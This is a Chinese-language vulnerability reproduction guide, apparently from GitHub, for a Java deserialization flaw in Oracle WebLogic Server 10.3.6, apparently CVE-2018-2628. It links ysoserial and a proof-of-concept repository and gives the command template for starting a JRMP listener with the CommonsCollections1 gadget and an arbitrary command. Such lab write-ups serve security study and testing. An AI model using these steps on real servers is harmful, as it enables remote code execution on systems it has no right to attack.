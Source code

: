 ![](img/7.png)


`打个比喻就是相当于你在网上买个玩具房子，他不可能直接快递给你邮个房子，先把房子拆开邮走(序列化)，然后收到时在拼装成一个房子(反序列化)。在JAVA中，对象的序列化和反序列化被广泛的应用到RMI（远程方法调用）及网络传输中。`

**漏洞复现**

1. 安装weblogic

[下载地址](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html)

这里选择存在漏洞版本:

- Oracle WebLogic Server 10.3.6

2. 安装java

[下载地址](https://www.oracle.com/java/technologies/javase-downloads.html)

建议安装 java 1.8.0


**漏洞利用**

- windows

  首先需要启动一个`JRMP Server`，可以利用`ysoserial`

  - [ysoserial 下载地址](https://github.com/brianwrf/ysoserial/releases/tag/0.0.6-pri-beta)

  **带poc利用**
  - [ysoserial-cve-2018-2628](https://github.com/tdy218/ysoserial-cve-2018-2628)

  利用`ysoserial`启动一个 `JRMP Server`

**命令格式**

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [监听端口] CommonsCollections1 "命令"
```

![](img/8.png)
